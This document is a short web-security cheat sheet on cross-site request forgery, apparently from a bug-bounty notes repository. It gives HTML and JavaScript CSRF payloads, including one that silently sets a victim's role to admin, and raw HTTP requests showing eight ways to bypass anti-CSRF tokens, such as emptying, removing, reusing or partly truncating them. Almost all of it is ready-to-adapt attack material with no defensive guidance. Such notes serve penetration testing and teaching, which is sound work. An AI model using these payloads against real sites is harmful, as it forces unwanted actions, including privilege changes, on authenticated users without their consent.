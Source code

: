 # Cross Site Request Forgery (CSRF)
## Introduction
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated

## How to Find

1. HTML GET Method

```html
<a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
```

2. HTML POST Method

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

3. JSON GET Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

4. JSON POST Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass CSRF Token
1. Change single character
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
[...]
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
